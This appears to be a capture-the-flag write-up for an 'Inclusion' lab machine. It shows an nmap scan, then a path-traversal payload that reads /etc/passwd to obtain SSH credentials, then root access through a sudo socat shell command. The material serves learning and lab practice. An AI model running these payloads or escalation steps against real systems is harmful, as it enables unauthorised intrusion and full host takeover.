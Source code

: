 # LFI Vulnerability

[If you want to check my notes about IDORs](https://github.com/itKhalid143/websec100/blob/main/Days/Day8-LFI%20%26%26%20RFI.md)

***

## user.txt

First We make an nmap scan!
```java
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDH1X4Cqbxb5okQZBN3LvsIM8dYZOxeMWlReUkWWp+ICQ+6RjVs+bSbShCPac1Zc+lbnfHte1ZRtMW8a3OodW02+8PXcDbZlmMNMWUQmM76D2NZz28PDC7vouYqSQGt6J6gfsTq2YqCMVPU28uoJ/Qvg5C6hM3oFFDztV2BN7Pj+SgZ8a5htxv5wgn/PtWju2CJCQzPhLUrkAlrSb97/YQcvtjwXUGzKGHo62Cl6GINLm3nAVqJnNpm7aWcKowdfnEsrp+S41W5xV1gl4CyvE9usk5LfQwlPDF50FCgzsidA7mn4NbTukdTsNMAOTe0oAmjXAE0q/KCT076stYjRphX
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPvYRKovqOIYhJN1NV8r3T3YTa4N40XFZaWSQjuYyZIsuL6D8Xn9C4v925gPkS/wZyYBh7CRt6CcSbd2ekPByzo=
|   256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAd782HHJj9kHBKUMOUOgfWVBU9LdeGrlTDQ+Z0hD8yI
80/tcp open  http    syn-ack Werkzeug httpd 0.16.0 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### After our result, we can see we have 2 open ports! which are 22/80

### Let check the Website!


- My eyes went directly to ```LFI-attack``` post, as this room was for LFI.
![****](/Inclusion/Pictures/1.PNG)

- First thing we can see, this text is weird! then I thought that could be a file loaded from the host using execute function! Then why not Input different path in the Url! and this was my payload:

```
http://10.10.216.81/article?name=../../../../etc/passwd
```
![****](/Inclusion/Pictures/2.PNG)

- And here we have the username and the password! let try to SSH!
```
ssh falconfeast@10.10.216.81 
```
### Boom! We're in!

![****](/Inclusion/Pictures/user.PNG)

## root.txt

- First thing I go is! 
```
sudo -l
```
the result was!

![****](/Inclusion/Pictures/root.PNG)

```java
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

Here we can run ```/usr/bin/socat``` as root! a quick search on gtfobins, the payload is ready
```php
sudo /usr/bin/socat stdin exec:/bin/sh
``` 

![****](/Inclusion/Pictures/root2.PNG)

#Thank you!